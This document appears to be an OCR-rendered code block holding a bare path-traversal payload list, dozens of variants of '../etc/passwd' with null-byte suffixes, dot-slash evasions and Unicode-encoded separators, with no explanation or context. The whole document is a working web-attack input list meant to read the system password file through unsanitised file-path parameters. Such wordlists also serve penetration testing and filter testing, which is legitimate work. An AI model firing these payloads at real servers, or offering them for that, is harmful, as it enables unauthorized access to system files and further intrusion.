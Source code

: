 ```llvm
../../../../../etc/passwd%00.jpg
../../../../../etc/passwd%00
../../../../../etc/passwd
...\.\etc/passwd
...\.\...\.\etc/passwd
...\.\...\.\...\.\etc/passwd
...\.\...\.\...\.\...\.\etc/passwd
...\.\...\.\...\.\...\.\...\.\etc/passwd
.../etc/passwd
..././etc/passwd
..././..././etc/passwd
..././..././..././etc/passwd
..././..././..././..././etc/passwd
..././..././..././..././..././etc/passwd
.../.../etc/passwd
.../.../.../etc/passwd
.../.../.../.../etc/passwd
.../.../.../.../.../etc/passwd
..../etc/passwd
..../..../etc/passwd
..../..../..../etc/passwd
..../..../..../..../etc/passwd
..../..../..../..../..../etc/passwd
..%uF025etc/passwd
..%uF025etc%uF025passwd
..%uF025../etc/passwd
..%uF025..%uF025etc/passwd
..%uF025..%uF025etc%uF025passwd
..%uF025..%uF025../etc/passwd
..%uF025..%uF025..%uF025etc/passwd
..%uF025..%uF025..%uF025etc%uF025passwd
..%uF025..%uF025..%uF025../etc/passwd
..%uF025..%uF025..%uF025..%uF025etc/passwd
..%uF025..%uF025..%uF025..%uF025etc%uF025passwd
..%uF025..%uF025..%uF025..%uF025../etc/passwd
..%uF025..%uF025..%uF025..%uF025..%uF025etc/passwd
..%uF025..%uF025..%uF025..%uF025..%uF025etc%uF025passwd
..%uEFC8etc/passwd
..%uEFC8etc%uEFC8passwd
..%uEFC8../etc/passwd
..%uEFC8..%uEFC8etc/passwd
..%uEFC8..%uEFC8etc%uEFC8passwd
..%uEFC8..%uEFC8../etc/passwd
..%uEFC8..%uEFC8..%uEFC8etc/passwd
..%uEFC8..%uEFC8..%uEFC8etc%uEFC8passwd
..%uEFC8..%uEFC8..%uEFC8../etc/passwd
..%uEFC8..%uEFC8..%uEFC8..%uEFC8etc/passwd
..%uEFC8..%uEFC8..%uEFC8..%uEFC8etc%uEFC8passwd
..%uEFC8..%uEFC8..%uEFC8..%uEFC8../etc/passwd
..%uEFC8..%uEFC8..%uEFC8..%uEFC8..%uEFC8etc/passwd
..%uEFC8..%uEFC8..%uEFC8..%uEFC8..%uEFC8etc%uEFC8passwd
..%u2216etc/passwd
..%u2216etc%u2216passwd
..%u2216../etc/passwd
..%u2216..%u2216etc/passwd
..%u2216..%u2216etc%u2216passwd
..%u2216..%u2216../etc/passwd
..%u2216..%u2216..%u2216etc/passwd
..%u2216..%u2216..%u2216etc%u2216passwd
..%u2216..%u2216..%u2216../etc/passwd
..%u2216..%u2216..%u2216..%u2216etc/passwd
..%u2216..%u2216..%u2216..%u2216etc%u2216passwd
..%u2216..%u2216..%u2216..%u2216../etc/passwd
```
